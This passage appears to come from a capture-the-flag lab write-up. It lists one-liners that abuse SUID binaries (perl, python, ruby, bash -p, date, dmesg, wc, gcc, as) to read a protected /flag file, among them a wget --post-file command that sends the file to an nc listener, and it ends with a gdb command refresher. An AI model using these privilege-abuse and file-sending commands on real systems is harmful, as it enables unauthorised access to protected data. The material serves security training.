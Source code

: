    ```
    - Here we just rename `cat` to `mv`, and covered the original `mv` program, then execute level program to get the `suid` privilege for present `mv` program (However, in core logic, it's `cat` program)
    - Finally, 'cat' it, but our command should be `mv /flag`

41. `perl -e 'open(FILE,"</flag");$line=<FILE>;foreach ($line){print $_;}'`

42. `python -c 'print(open("/flag").read())'`

43. `echo 'puts File.read("/flag")' > test.rb && /usr/bin/ruby test.rb && rm -rf test.rb`

44. ```bash
    bash -p
    cat /flag
    ```
    
    - **HARD**
    - Recommend source: [bash suid](https://gtfobins.github.io/gtfobins/bash/#suid)

45. `date -f /flag`

46. `dmesg -F /flag`

47. `wc --files0-from=/flag`

48. **HARD** `gcc -x assembler /flag`

49. `as @/flag`

50. **HARD** `wget -bv --post-file=/flag 127.0.0.1:3864 | nc -vl 127.0.0.1 3864`

    - DO NOT use the `-i` option, it turns all the `flag` letters to lowercase because of the `url` encoding rule.

51. TODO

#### Confusing Question Numbers

- 17
- **20** ( really confused )

### Debugging Refresher

1. ```bash
   r
   c
   ```
   
   - `run` to start a program, with no breakpoint set. `r` for short.
   - `start` to start a program, with a breakpoint set on `main`.
   - `starti` to start a program, with a breakpoint set on `_start`.
   - `attach <PID>` to attach to some other already running program.
   - `core <PATH>` to analyze the core dump of an already run program.
   - `continue` to continue program execution. `c` for short.
